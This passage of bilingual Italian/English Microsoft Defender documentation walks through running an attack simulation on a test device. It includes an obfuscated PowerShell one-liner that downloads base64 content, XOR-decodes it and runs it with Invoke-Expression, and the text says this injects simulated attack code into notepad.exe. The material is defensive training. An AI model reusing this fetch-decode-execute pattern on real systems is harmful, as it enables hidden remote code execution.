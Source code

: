 1.  <span data-ttu-id="8b417-151">Accedere al dispositivo di test con l'account utente di test.</span><span class="sxs-lookup"><span data-stu-id="8b417-151">Log in to the test device with the test user account.</span></span>

2.  <span data-ttu-id="8b417-152">Aprire una finestra di Windows PowerShell nel dispositivo di test.</span><span class="sxs-lookup"><span data-stu-id="8b417-152">Open a Windows PowerShell window on the test device.</span></span>

3.  <span data-ttu-id="8b417-153">Copiare lo script di simulazione seguente:</span><span class="sxs-lookup"><span data-stu-id="8b417-153">Copy the following simulation script:</span></span>

    ```powershell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
    = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
    -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```
    
    > [!NOTE]
    > <span data-ttu-id="8b417-154">Se si apre il documento in un Web browser, è possibile che si verifichino problemi nella copia del testo completo senza perdere alcuni caratteri o nell'introduzione di interruzioni di riga aggiuntive.</span><span class="sxs-lookup"><span data-stu-id="8b417-154">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="8b417-155">Scaricare il documento e aprirlo su Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="8b417-155">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="8b417-156">Al prompt dei comandi incollare ed eseguire lo script copiato.</span><span class="sxs-lookup"><span data-stu-id="8b417-156">At the prompt, paste and run the copied script.</span></span>

>[!NOTE]
><span data-ttu-id="8b417-157">Se è in esecuzione PowerShell tramite Remote Desktop Protocol (RDP), utilizzare il comando Testo Appunti di tipo nel client RDP perché il metodo di scelta rapida **CTRL-V** o con il pulsante destro del mouse su Incolla potrebbe non funzionare.</span><span class="sxs-lookup"><span data-stu-id="8b417-157">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span>  <span data-ttu-id="8b417-158">Le versioni recenti di PowerShell, a volte, non accetteranno anche questo metodo, potrebbe essere necessario copiare prima la memoria nel blocco note, copiarla nella macchina virtuale e quindi incollarla in PowerShell.</span><span class="sxs-lookup"><span data-stu-id="8b417-158">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="8b417-159">Dopo qualche secondo, <i>notepad.exe</i> si aprirà.</span><span class="sxs-lookup"><span data-stu-id="8b417-159">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="8b417-160">Verrà inserito un codice di attacco simulato in notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="8b417-160">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="8b417-161">Mantenere aperta l'istanza di blocco note generata automaticamente per verificare lo scenario completo.</span><span class="sxs-lookup"><span data-stu-id="8b417-161">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

